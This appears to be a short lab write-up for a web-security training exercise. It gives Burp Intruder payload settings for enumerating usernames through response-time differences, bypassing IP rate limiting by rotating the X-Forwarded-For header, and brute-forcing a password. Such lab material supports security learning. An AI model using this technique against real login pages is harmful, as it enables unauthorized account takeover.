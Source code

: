```bash

username=§wiener§&password=passwordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrteshpasswordgfrdesgreshrtesh

Payload set: 1
Payload type: Numbers
Payload Options[Numbers]
From: 1
To: 100
Step: 1
Max fraction digits: 0 // this will mask the IP

Payload 2
Payload type: Simple list
Load 'usernames.txt' file //or// copy/paste from web-page
Start attack
Go to: Columns -> Response received //and// Response completed
Notice the difference in response time
Use new-found username(s)

X-Forwarded-For: §0§

username=analyzer&password=§password§

Payload set: 2
Clear the 'username.txt' and replace with 'passwords.txt' //or// copy/past from web-page
Start attack
There should be a status code of "302" like when signing into 'wiener:peter'


```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220506230843.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220506230815.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220506231514.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220506231722.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220506232141.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220506232210.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220506232327.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220506232514.png)
